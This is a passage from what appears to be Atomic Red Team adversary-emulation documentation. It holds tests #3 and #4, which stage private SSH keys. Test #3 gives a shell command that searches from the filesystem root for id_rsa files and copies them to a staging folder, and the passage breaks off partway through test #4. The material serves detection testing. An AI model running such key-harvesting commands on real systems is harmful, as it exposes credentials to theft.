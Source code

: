 #### Cleanup Commands:

```sh
rm #{output_file}
```

<br/>
<br/>

## Atomic Test #3 - Copy Private SSH Keys with CP

Copy private SSH keys on a Linux system to a staging folder using the `cp` command.

**Supported Platforms:** Linux

**auto_generated_guid:** 7c247dc7-5128-4643-907b-73a76d9135c3

#### Inputs:

| Name          | Description                                              | Type | Default Value    |
| ------------- | -------------------------------------------------------- | ---- | ---------------- |
| search_path   | Path where to start searching from.                      | path | /                |
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging |

#### Attack Commands: Run with `sh`!

```sh
mkdir #{output_folder}
find #{search_path} -name id_rsa 2>/dev/null -exec cp --parents {} #{output_folder} \;
exit 0
```

#### Cleanup Commands:

```sh
rm -rf #{output_folder}
```

<br/>
<br/>

## Atomic Test #4 - Copy Private SSH Keys with CP (freebsd)

Copy private SSH keys on a FreeBSD system to a staging folder using the `cp` command.

**Supported Platforms:** Linux

**auto_generated_guid:** 12e4a260-a7fd-4ed8-bf18-1a28c1395775

#### Inputs:

| Name          | Description                                              | Type | Default Value    |
| ------------- | -------------------------------------------------------- | ---- | ---------------- |
| search_path   | Path where to start searching from.                      | path | /                |
| output_folder | Output folder containing copies of SSH private key files | path | /tmp/art-staging |
